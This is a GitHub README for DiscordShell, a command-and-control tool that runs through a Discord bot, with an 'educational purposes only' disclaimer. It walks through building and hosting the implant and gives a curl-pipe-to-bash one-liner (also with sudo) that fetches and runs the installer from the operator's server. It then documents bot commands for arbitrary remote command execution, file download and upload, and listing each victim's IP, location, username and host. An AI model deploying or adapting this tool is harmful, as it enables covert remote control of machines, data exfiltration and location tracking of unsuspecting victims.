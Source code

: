 # DiscordShell

C2 hosted on Discord via use of the Discord Python API. Created by [Sid Lacy](https://github.com/lacysw) and [Nathan Burns](https://github.com/AlbinoGazelle).

The files contained in this repository are intended for educational purposes only. Malicious use of code hosted within this repository is not permitted.

## Screenshots

Instant notifications on client join.
![Instant notifications on client join.](/img/clientJoin.png)

Easy access to basic client information.
![Easy access to basic host information.](/img/clientHosts.png)

Client latency information request.
![Support for executing arbitraty non-interactive commands.](/img/clientPing.png)

[!] SHELL: Support for executing any arbitraty non-interactive commands.
![SHELL: Support for executing any arbitraty non-interactive commands.](/img/clientCommand.png)

Support for uploading files under 4MB to the client (Discord API limitations).
![Support for uploading files under 4MB to the client (Discord API limitations).](/img/clientUpload.png)

Support for downloading files under 4MB from the client (Discord API limitations).
![Support for uploading files under 4MB to the client (Discord API limitations).](/img/clientDownload.png)

At-will client deauthorization.
![Instant notifications on client join.](/img/clientKill.png)

## Setup

### Discord

1. Follow [these instructions](https://discordpy.readthedocs.io/en/stable/discord.html).
2. Save the bot token for later use.
3. Create a C2 channel in your discord, this is where the bot will accept commands. Copy the channel ID and save it for later.
4. Copy your user ID and save it for later use.

### Host

1. Edit the variables `apitoken`, `debug`, and `allowed_users` inside `shell.py` with the information you saved earlier.
2. Run `build.sh` to yield an executable.
3. Edit the variables `$srcip` and `$srcport` inside of `install.sh` to contain the IP address and port of the server hosting the shell.
4. Host the executable (`shell`) and `installer.sh` at `$scrip:$scrport`.

### Client

 - Execute `curl -s  http://$srcip:$srcport/installer.sh | bash` for a standard connection.
 - Execute `curl -s  http://$srcip:$srcport/installer.sh | sudo bash` for a root connection.

## Supported Features & Syntax

All supported commands are prefixed with `?`.
 - `?hosts`: Request the following information for every active client:
    - IP address; click to navigate instantly to whois.domaintools.com/${IP}
    - Alpha-2 country code of residence
    - Estimated location coordinates; click to instantly navigate to google.com/maps?q=${latitude},${longitude}
    - Detected operating system
    - EUID (permissions)
    - Username and hostname
    - The service provider of the internet connection
 - `?cmd ${client_id} ${command}`: Executes a command on a specified client. Command result will be returned in a discord message.
    - Example: `?cmd abcd1234 whoami`
    - Example: `?cmd abcd1234 ls -la`
 - `?download ${client_id} ${path}`: Download specified file from client. Data will be returned in a discord message, has a limitation of 4MB in non-boosted servers.
    - Example: `?download abcd1234 file.txt`
    - Example: `?download abcd1234 /home/user/picture.png`
 - `?upload ${client_id} ${path}`: Upload a file to a specified client. Status message will be returned in a discord message, has a limitation of 4MB in non-boosted servers.
    - Example: `?upload abcd1234 resource.sql`
    - Example: `?upload abcd1234 /usr/sbin/function.sh`
 - `?kill ${client_id}`: Terminate a specified client. Status message will be returned in a discord message.
    - Example: `?kill abcd1234`


## Plans

 - Better error handling.
 - Comprehensive logging.